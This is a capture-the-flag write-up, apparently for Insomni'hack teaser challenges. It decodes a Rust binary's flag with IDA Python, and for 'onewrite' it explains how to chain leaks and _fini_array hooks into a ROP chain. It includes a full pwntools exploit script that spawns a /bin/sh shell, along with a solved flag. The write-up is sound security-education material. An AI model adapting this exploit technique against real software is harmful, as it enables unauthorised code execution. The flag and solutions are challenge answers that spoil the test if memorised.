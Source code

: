 ## beginner reverse

It is a binary written in Rust. Initially I got stuck into the Rust stuff, which wasted me much time. The main function at `0x66A0` is long, but many of them are junk codes that do not help to solve the challenge. In fact, the core logic is this loop

```c
do
{
  if ( v15 == v22 )
    break;
  v25 = ((*((_DWORD *)v30 + v23) >> 2) ^ 0xA) == *(_DWORD *)&v15[4 * v23];
  // if we set a breakpoint here, v15 is the input but is unsigned extended to DWORD array
  ++v23;
  v24 += v25;
  v22 -= 4;
}
```

Here it compares the input with something, which is initialized here

```c
*v0 = xmmword_51000;
v0[1] = xmmword_51010;
v0[2] = xmmword_51020;
v0[3] = xmmword_51030;
v0[4] = xmmword_51040;
v0[5] = xmmword_51050;
v0[6] = xmmword_51060;
v0[7] = xmmword_51070;
*((_QWORD *)v0 + 16) = 0x1DE000001E2LL;
```

And it is obvious that the transformation is `(data[i] >> 2) ^ 0xA`, where `data` is an `uint32_t` array.

Thus, we can decrypt the flag using IDA Python

```python
Python>flag = ""
Python>for p in range(0x51000, 0x51080, 4) + range(0x6722, 0x672a, 4):
Python>  flag += chr((Dword(p) >> 2) ^0xA)
Python>
Python>flag
INS{y0ur_a_r3a1_h4rdc0r3_r3v3rs3r}
```

## onewrite

The binary can leak the stack address or PIE address of the program, then an arbitrary 8-byte write is performed, then the program exits. The program was statically linked, so there is no `libc`. Also since the program has not used `execve`, so this function is not provided. Our only way is to use `ret2syscall` by ROP. So we need to leak the 2 addresses without quiting first. The way to not quit after leaking is to rewrite return address in stack. For example, in function `main`,

`do_leak` is called.

```c
.text:00007FFFF7D52B04                 call    do_leak
.text:00007FFFF7D52B09                 nop
```

And the value `0x00007FFFF7D52B09` is stored as the return address. (value might change if ASLR is enabled)

If we rewrite the least significant byte `0x09` to `0x04`, we can execute `do_leak` again after `retn`. In this way we can leak both `stack` and `pie`, and still return to the function `do_leak`.

Then here is the difficult part. Since we can only control `0xf` bytes in stack using `read` in `read_int_3`, we cannot easily construct a ROP chain that allows `ret2syscall`. Initially I decided to rewrite the return address to the start of `do_leak` instead of `call stack` in `main` function, in this way we can "shift" the stack down by 8 bytes each time. In the meanwhile, we can gradually construct a ROP chain using `read` in `read_int_3`, with 8 bytes each time.  But this failed to work because `puts` function will overwrite the data that I have putted using `read_int_3` in the last `do_write`.

Then, I found a permanent way to always restart the program: hook the `_fini_array` function table, the functions inside which will be called when `exit` function is called, and the `exit` function will be called after `main` function returns. Thus, If we can change the one of the functions into `_start`, can we alway restart the program after it exits? Unfortunately no. It seems that when the `__libc_start_main` is called second time, a segmentation fault will be created in subroutine `dl_relocate_static_pie`.

Well, if we cannot return to `_start` to restart everything, why not hook `_fini_array` into function like `do_overwrite`? Actually this turns out to be the correct(but not necessarily intended?) method. However, the `exit` function will not be called after the subroutine function returns, so we cannot restart again. Luckily, there are 2 entries in `_fini_array`, which will be called in the reverse order. If we can change both of the 2 entries to `do_overwrite`, we can use the first one to rewrite return address to `__libc_csu_fini`(The function that calls the functions in the `_fini_array`) and use the second one to construct ROP, so after then we can return to `__libc_csu_fini` again and do the same thing next time.

I chose to construct ROP below the current `rsp` because there are many gadgets like `add rsp,xxx; ret`. Finally, I used an `add rsp, 0xd0; pop xxx; ret` to pivot the `rsp` onto ROP.

exploit

```python
from pwn import *

g_local=True
context.log_level='debug'
p = ELF("./onewrite")
if g_local:
	sh = process('./onewrite')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("onewrite.teaser.insomnihack.ch", 1337)

def leak(cmd):
	sh.recvuntil(" > ")
	sh.send(cmd)
	sh.recvuntil("0x")
	ret = int(sh.recvuntil("\n"), 16)
	return ret

def fill_stack(cmd):
	sh.recvuntil(" > ")
	sh.send(cmd)
	sh.recvuntil("Nope\n")

def write(addr, data):
	sh.recvuntil("address : ")
	sh.send(str(addr))
	sh.recvuntil("data : ")
	sh.send(data)

stack_addr = leak("1\x00")
write(stack_addr + 0x18, p8(0x04)) # b09->b04
prog_addr = leak("2\x00") - p.symbols["do_leak"]
write(stack_addr + 0x18, p8(0x04)) # b09->b04
print hex(stack_addr), hex(prog_addr)

fini_arr = prog_addr + p.symbols["__do_global_dtors_aux_fini_array_entry"]
do_overwrite = p64(prog_addr + p.symbols["do_overwrite"])
csu_fini = p64(prog_addr + p.symbols["__libc_csu_fini"])
fill_stack("nop")

init_ret = stack_addr - 72

write(fini_arr + 8, do_overwrite) #write 2nd entry of fini_arr
write(fini_arr, do_overwrite) #write 1st entry of fini_arr
write(init_ret, csu_fini) #write return address to csu_fini

init_ret += 8

def write_qword(addr, val):
	global init_ret
	write(init_ret, csu_fini)
	init_ret += 8
	write(addr, p64(val))

pop_rdi = p64(prog_addr + 0x84fa)
pop_rsi = p64(prog_addr + 0xd9f2)
pop_rdx = p64(prog_addr + 0x484c5)
pop_rax = p64(prog_addr + 0x460ac)
syscall = p64(prog_addr + 0x4610e)
bin_sh_buf = prog_addr + 0x2b4500

rop = pop_rdi
rop += p64(bin_sh_buf)
rop += pop_rsi
rop += p64(0)
rop += pop_rdx
rop += p64(0)
rop += pop_rax
rop += p64(59)
rop += syscall

write_qword(bin_sh_buf, u64("/bin/sh\x00"))

for i in xrange(0, len(rop), 8):
	write_qword(init_ret + 0x108, u64(rop[i:i+8]))
raw_input()
write(stack_addr - 16, p64(prog_addr + 0x106f3)) # add rsp,0xd8 ; ret

sh.interactive()

# init_ret = stack_addr + 0x18
# for i in xrange(0, 0x100, 8):
# 	fill_stack('A' * 15)
# 	write(init_ret + i, p64(prog_addr + p.symbols["do_leak"]))
```

## 1118daysober

//todo